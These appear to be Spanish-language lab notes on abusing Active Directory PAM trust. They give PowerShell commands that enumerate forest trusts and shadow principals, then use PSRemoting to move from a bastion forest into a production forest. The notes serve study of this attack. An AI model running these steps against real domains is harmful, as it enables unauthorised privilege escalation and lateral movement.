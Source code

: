 **Cross Forest Attacks - Abusing PAM Trust**

- La confianza de PAM generalmente está habilitada entre un bosque Bastión o Rojo y un bosque de producción / usuario que administra.
- La confianza de PAM proporciona la capacidad de acceder al bosque de producción con privilegios elevados sin utilizar las credenciales del bosque bastión. Por lo tanto, mayor seguridad para el bosque bastión que tanto se desea.
- Para lograr lo anterior, los directores de sombra se crean en el dominio bastión que luego se asignan a los SID de los grupos DA o EA en el bosque de producción.
- Tenemos acceso DA al bosque local techcorp. Al enumerar trusts y buscar acceso, podemos enumerar que tenemos acceso administrativo al bosque bastion.local.
- Desde techcorp-dc:

    `Get-ADTrust -Filter *`

    `Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local`

- En bastion-dc, enumeramos si hay algun PAM Trust:

    `$bastiondc = New-PSSession bastion-dc.bastion.local Invoke-Command -ScriptBlock {Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}} -Session $bastiondc`

- Checkeamos los usuario miembro del Shadow Principal:

    `Invoke-Command -ScriptBlock {Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," +(GetADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl} -Session $bastiondc`

- Establecemos un PSRemoting directo con la sesion en bsation-dc y accedemos a production.local:

    `Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential`